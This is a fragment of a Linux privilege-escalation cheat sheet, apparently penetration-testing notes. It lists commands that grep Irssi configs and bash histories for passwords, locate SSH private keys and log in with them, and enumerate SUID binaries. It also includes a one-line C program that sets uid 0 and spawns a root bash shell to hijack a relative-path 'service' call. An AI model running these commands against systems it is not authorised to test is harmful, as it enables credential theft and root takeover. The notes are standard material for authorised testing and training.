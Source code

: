 ### Irssi Files

```
find / -iname "config" 2> /dev/null | grep -i "irssi"
```

```
cat filename | grep -i passw
```

### Bash History

```
cat /home/*/.bash_history | grep -i passw
```

### SSH Keys

```
find / -name id_rsa 2> /dev/null
```

```
chmod 400 id_rsa
```

```
ssh -i id_rsa someuser@$ip
```

## Abusing Intended Functionality

**Symlinks**

**Nginx below 1.6.2-5+deb8u3** [**logrotate Local Privilege Escalation**](https://www.exploit-db.com/exploits/40768)

## Environment Variables

#### Path

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```
strings /usr/local/bin/onfoundsuid
```

C functions such as setresgid, setresuid, and system are of interest and should be investigated. Relative path commands such as "service" apache2 start can be abused.

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

```
gcc /tmp/service.c -o /tmp/service
```
